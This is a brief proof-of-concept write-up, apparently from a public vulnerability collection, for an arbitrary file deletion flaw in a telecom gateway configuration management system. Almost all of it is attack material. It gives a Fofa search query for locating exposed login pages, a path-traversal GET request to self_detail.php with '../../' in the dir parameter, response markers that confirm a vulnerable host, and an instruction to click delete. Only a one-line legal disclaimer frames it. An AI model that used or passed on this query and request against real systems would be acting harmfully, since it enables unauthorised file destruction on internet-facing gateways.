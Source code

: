 ### Telecom Gateway Configuration Management System Arbitrary File Deletion

**Fofa Query:** `body="img/dl.gif" && title="系统登录"`

**Vulnerability Description:** The telecom gateway configuration system suffers from an arbitrary file deletion vulnerability.

**Vulnerability POC (Proof of Concept):**

1. **Send a GET request to the following URL:**

   ```
   GET /newlive/manager/self_detail.php?dir=../../ HTTP/1.1
   ```

   **Response Code Characteristic:** 200  
   **Response Content Characteristic:** index.php

2. **Proceed with deletion:**

   ![Deletion Image](C:\Users\28162\AppData\Roaming\Typora\typora-user-images\image-20250118024828086.png)

   Simply click the delete option to perform the file deletion.

---

Please ensure that any testing or actions performed are authorized and comply with all applicable laws and regulations. Unauthorized activities can lead to legal consequences.